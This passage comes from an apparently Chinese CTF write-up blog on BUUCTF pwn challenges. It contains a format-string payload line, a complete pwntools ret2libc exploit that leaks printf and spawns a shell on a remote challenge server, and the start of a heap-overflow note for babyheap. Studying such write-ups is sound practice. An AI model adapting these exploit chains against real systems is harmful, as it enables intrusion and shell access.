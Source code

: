 ```python
io.sendline(fmtstr_payload(11, {0x804A02C: 4}))

io.interactive()
```
# buu025-pwn2_sctf_2016
这一题真是吃尽苦头，LibcSearcher不给力，找半天也没找到适合的libc（应该是libc6-i386_2.23_0ubuntu10_amd64，但是由于LibcSearcher连的是ubuntu官网，这个版本被删了，然后就找不到了。。。）。看着这道题没做出来实在是气，不过又看到了程序中有一个int 80，于是思考能不能用系统调用解决问题。发现很难，因为给的gadget都是inc，执行完vuln函数之后eax,ebx,edx都是很小的值，总不可能一个inc执行几十万次吧？
查看了下gadget，ebx,edi,esi,ebp倒是能直接控制，对于eax,ecx,edx还是要费很多心思。
后来给用pip装的LibcSearcher卸了换上[国人写的](https://github.com/lieanu/LibcSearcher)就好了。果然还是国人给力o(￣▽￣)ｄ
exp：

```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29855)
elf = ELF('./pwn')

def read_anyaddr(addr):
	io.sendlineafter(b'want me to read? ', b'-1')
	io.sendlineafter(b'bytes of data!', cyclic(0x2C + 4) + p32(elf.plt['printf']) + p32(elf.symbols['vuln']) + p32(addr))
	content = io.recvuntil(b'How', drop=True)
	return len(content)

io.sendlineafter(b'How many bytes do you want me to read? ', b'-1')
io.sendlineafter(b'bytes of data!', cyclic(0x2C + 4) + p32(elf.plt['printf']) + p32(elf.symbols['vuln']) + p32(elf.got['printf']))
io.recvuntil(p32(elf.got['printf']) + b'\n')

# io.recv(4)
printf = u32(io.recv(4))

libc = LibcSearcher('printf', printf)
print(hex(printf))
base = printf - libc.dump('printf')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

print(hex(base))
print(hex(sys))
print(hex(binsh))

io.sendline(b'-1')
io.sendlineafter(b'bytes of data!', cyclic(0x2C + 4) + p32(sys) + p32(binsh) + p32(binsh))

io.interactive()
```
# buu026-babyheap_0ctf_2017
第一道堆题。
**解法：unsorted bin overlapping chunks + fastbin attack**
提供了分配chunk、填充chunk、释放chunk、打印chunk内容4个功能。其中填充chunk功能没有进行边界检查，可以产生堆溢出：
![](1.png)
简单看了一下，试了几下之后，发现这道题和前面所有题都截然不同，难度完全不是一个档次。